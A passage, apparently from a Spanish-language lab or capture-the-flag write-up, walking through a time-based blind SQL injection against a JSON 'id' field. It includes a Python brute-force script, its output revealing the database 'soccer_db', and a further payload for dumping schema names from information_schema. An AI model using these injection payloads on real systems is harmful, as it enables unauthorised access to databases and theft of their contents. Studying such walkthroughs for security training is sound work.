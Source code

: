 ```python
        response = False
        if fin - inicio >= 2:
            global bbdd
            global let
            bbdd += let
            p2.status(bbdd)
            response = True

        return response

def peticion(request):
    response = asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("BBDD: ")
    time.sleep(2)
    for position in range(1,65):
        for letter in letters:
            let = letter
            payload = f"or if(substr((database()),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Si ejecutamos el *script* y esperemos un poco:

```bash
python3 prueba.py 
[°] SQLI: {"id":"1 or if(substr((database()),8,1)='d',sleep(2),1)"}
[v] BBDD: : soccer_db
[!] Saliendo...
```

La base de datos en uso es ***soccer_db***.

#### Bases de datos existentes

Para volcar todas las **bases de datos** la *query* será la siguiente:

```python
"{"id":"1 or if(substr((select group_concat(schema_name) from information_schema.schemata),{position},1)='{letter}',sleep(2),1)}"
```

La lógica es exactamente la misma que en el caso anterior, pero ahora, se utiliza ***schema_name) from information_schema.schemata*** para volcar las *databases*. ***group_contat*** sirve para concatenar todas las bases de datos en una misma línea, separadas por comas.
